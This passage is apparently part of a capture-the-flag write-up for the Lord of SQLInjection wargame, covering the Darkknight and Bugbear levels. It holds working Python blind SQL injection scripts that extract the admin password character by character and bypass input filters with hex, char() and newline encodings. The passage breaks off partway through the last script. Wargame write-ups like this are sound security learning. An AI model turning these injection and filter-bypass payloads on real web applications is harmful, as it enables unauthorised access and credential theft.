 ``` python
        if "Hello admin" in Result:
            Pw+=str(a)
            print "["+str(i)+"] Find : "+str(a)
            isFind=True
            break
    if isFind != True:
        print "Password is "+Pw
        break
```

[http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=88e3137f](http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=88e3137f)

___

## 12. Darkknight
``` python
import urllib
import httplib
 
Pw=""
for i in range(1,100):
    isFind=False
    for a in "0123456789abcdefghijklmnopqrstuvwxyz":
        Payload="1 || id like 0x61646D696E && mid(pw,"+str(i)+",1) like "+str(hex(ord(a)))
        Payload=urllib.quote(Payload)
        HTTP=httplib.HTTPConnection("los.eagle-jump.org")
        Param=urllib.urlencode({})
        Headers={"Cookie":"PHPSESSID=**secret**"}
        HTTP.request("GET","/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="+Payload,Param,Headers)
        Result=HTTP.getresponse().read()
        if "Hello admin" in Result:
            Pw+=str(a)
            print "["+str(i)+"] Find : "+str(a)
            isFind=True
            break
    if isFind != True:
        print "Password is "+Pw
        break
```

[http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?pw=1c62ba6f](http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?pw=1c62ba6f)

___

## 13. Bugbear
``` python
import urllib
import httplib
 
Pw=""
for i in range(1,100):
    isFind=False
    for a in "0123456789abcdefghijklmnopqrstuvwxyz":
        Payload="1 || id regexp concat(char(97),char(100),char(109),char(105),char(110)) && mid(pw,"+str(i)+",1) regexp "+str(bin(ord(a)))
        Payload=urllib.quote(Payload)
        Payload=Payload.replace("%20","%0a")
        HTTP=httplib.HTTPConnection("los.eagle-jump.org")
        Param=urllib.urlencode({})
        Headers={"Cookie":"PHPSESSID=**secret**"}
```